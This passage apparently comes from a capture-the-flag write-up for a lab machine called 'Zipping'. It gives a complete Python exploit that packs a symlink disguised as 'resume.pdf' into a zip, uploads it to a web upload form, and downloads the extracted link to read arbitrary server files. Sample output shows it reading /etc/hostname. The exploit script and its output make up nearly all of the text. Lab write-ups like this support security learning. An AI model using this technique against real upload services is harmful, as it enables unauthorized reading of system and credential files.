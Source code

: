 #### Script

I’d like to make a script to make reading files from Zipping easier. I’ll walk through that in [this video](https://www.youtube.com/watch?v=NPlkZVm-C7M):

The final code is:

```

#!/usr/bin/env python3
import io
import re
import sys
import zipfile
import requests
from datetime import datetime

if len(sys.argv) < 3:
    print(f"Usage: {sys.argv[0]} <host> <target file path>")
    sys.exit()

host = sys.argv[1]
filepath = sys.argv[2]

zip_buffer = io.BytesIO()

with zipfile.ZipFile(zip_buffer, "w") as zip_file:
    zipInfo = zipfile.ZipInfo('resume.pdf')
    zipInfo.create_system = 3
    zipInfo.external_attr |= 0xA0000000
    zipInfo.date_time = datetime.now().timetuple()[:6]
    zip_file.writestr(zipInfo, filepath)

files = ('resume.zip', zip_buffer.getbuffer(), {"Content-Type": "application/zip"})
resp = requests.post(f'http://{host}/upload.php',
              files={"zipFile": ('resume.zip', zip_buffer.getbuffer(), {"Content-Type": "application/zip"})},
              data={"submit": ""}
              )

(url, ) = re.findall(r'path:</p><a href="(.*)">\1</a>', resp.text)

resp = requests.get(f'http://{host}/{url}')
sys.stdout.buffer.write(resp.content)

```

And it works (for both text and binaries):

```

oxdf@hacky$ python readfile.py 10.10.11.229 /etc/hostname
zipping

```
